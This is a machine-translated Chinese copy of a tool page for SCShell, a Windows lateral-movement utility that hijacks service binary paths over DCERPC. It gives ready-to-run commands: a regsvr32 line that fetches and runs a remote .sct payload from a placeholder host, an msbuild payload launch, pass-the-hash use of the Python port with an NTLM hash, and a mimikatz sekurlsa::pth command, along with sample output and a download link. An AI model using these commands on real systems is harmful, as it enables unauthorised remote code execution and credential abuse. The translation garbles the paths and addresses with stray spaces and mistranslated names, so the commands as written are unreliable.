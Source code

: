 # SCShell:依赖 ChangeServiceConfigA 运行命令的无文件横向移动工具

> 原文：<https://kalilinuxtutorials.com/scshell/>

[![SCShell : Fileless Lateral Movement Tool That Relies On ChangeServiceConfigA To Run Command](img/fef8cbbad5060cce8f3b38a05fc1d364.png "SCShell : Fileless Lateral Movement Tool That Relies On ChangeServiceConfigA To Run Command")](https://1.bp.blogspot.com/-gsZ6BfzLO9Y/Xddz2Sao9TI/AAAAAAAADiE/8qSvWySNIY8fsv8WRZom_HF9iSqAAFVJQCLcBGAsYHQ/s1600/network%2B%25281%2529.png)

**SCShell** 是一个无文件横向移动工具，依靠 ChangeServiceConfigA 运行命令。该工具的优点在于它不针对 SMB 执行身份验证。一切都是通过 DCERPC 执行的。

无需注册服务或创建服务，即可远程使用该实用程序。它也不需要在远程系统上删除任何文件*(取决于用来执行的技术)

**它是如何工作的？**

它只是远程打开一个服务，并通过`**ChangeServiceConfigA**` API 修改二进制路径名，而不是创建一个服务。

然后它启动服务。

一旦执行完成，服务二进制路径就恢复到原来的路径。使用`**QueryServiceConfigA**`提取原始服务路径。

一切都发生在 DCERPC 上，包括身份验证。

**也可理解为-[win pwn:内部 Windows 渗透测试/ AD 安全自动化](https://kalilinuxtutorials.com/winpwn-automation-internal-windows-penetrationtest-ad-security/)**

**用途**

当前版本是用`C`写的，但是我会把它移植到`**C#**`和`**PowerShell**`。

**SCShell.exe 目标服务有效负载域用户名密码**

`**target**`可设置为`**local**`以本地运行有效载荷

远程执行

SCShell.exe 192 . 168 . 197 . 131 XblAuthManager " C:\ windows \ system32 \ cmd . exe/C C:\ windows \ system32 \ regsvr 32 . exe/s/n/u/I://your . website/payload . SCT scrobj . dll "。管理员密码

我建议使用`**C:\windows\system32\cmd.exe /c**`来确保一旦服务停止，有效载荷不会被杀死。您需要使用完整路径。

您也可以使用 msbuild 有效负载

SCShell.exe 192 . 168 . 197 . 131 XblAuthManager " C:\ Windows \ system32 \ cmd . exe/C。NET \ Framework \ v 4 . 0 . 30319 \ msbuild . exe C:\ payload . csproj "。提供了管理员密码
SCShell ***
尝试连接 192.168.197.131
用户名尝试调用 LogonUserA
SC _ HANDLE Manager 0x 009 ed 250
打开 XblAuthManager
SC _ HANDLE Service 0x 009 ed 1 b 0
服务路径更改为 C:\ Windows \ system32 \ cmd . exe/C:\ Windows \ Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ msbuild . exe C:\ payload . csproj
服务已启动。

我使用 XblAuthManager 作为目标，它是 Xbox 附件管理服务

**路过哈希**

py 是 scshell 的 python2 & 3 实现。使用 impacket 项目，它可以很容易地用于执行相同的横向移动使用传递散列。

**安装**

**pip 安装插入包**

**用途**

python scshell . py DOMAIN/USER @ target-hashes 00000000000000000000000000:ad 9827 fcd 039 eadde 017568170 abdecce im packet v 0 . 9 . 20-Copyright 2019 secure auth Corporation

[*]命令需要使用完整路径。没有命令输出。谢尔>

您可以使用`C`实用程序来传递散列。默认情况下，将使用当前进程令牌。您可以使用标准的传递散列方法来设置当前进程令牌。

**在本地系统上**

**sekurlsa::PTH/user:user/domain:domain/NTLM:hash/run:cmd . exe**

然后在新创建的 cmd.exe 中运行 SCShell.exe。

**编译来源**

代码是在 Windows 上使用 GCC Mingw 编译器编译的

**鸣谢:Un1k0d3r RingZer0 先生团队**

[**Download**](https://github.com/Mr-Un1k0d3r/SCShell)